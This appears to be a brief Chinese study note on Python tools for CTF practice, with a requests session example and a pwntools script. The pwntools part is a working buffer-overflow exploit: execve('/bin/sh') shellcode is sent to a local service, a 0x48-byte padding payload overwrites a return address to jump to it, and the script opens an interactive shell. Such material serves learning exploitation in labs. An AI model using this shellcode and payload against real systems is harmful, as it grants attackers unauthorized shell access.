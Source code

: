 ##### Python相关

- 利用requests库来发送请求
```python
import requests
url = 'https://www.zju.edu.cn'
sess = requests.session()
r = sess.get(url)
headers = {
    'Cookies':'...'
}
data = {
    "...":"..."
}
r = sess.post(url,headers=headers,data=data)
```

- 利用pwntools中的**remote**来与远程服务器交互，发送一些**不可见字符**等
```python
from pwn import *

context.log_level = 'DEBUG'
context.arch = 'amd64'

p = remote('127.0.0.1', int(input()))

sc = b'jhH\xb8/bin///sPH\x89\xe7hri\x01\x01\x814$\x01\x01\x01\x011\xf6Vj\x08^H\x01\xe6VH\x89\xe61\xd2j;X\x0f\x05'

pause()

p.sendafter("what's your name:",sc)

address = 0x20000+0x1000*int(input())

length = 0x48

payload = length*b"A"+p64(address)

p.sendafter("try to overflow me~",payload)

p.interactive()
```
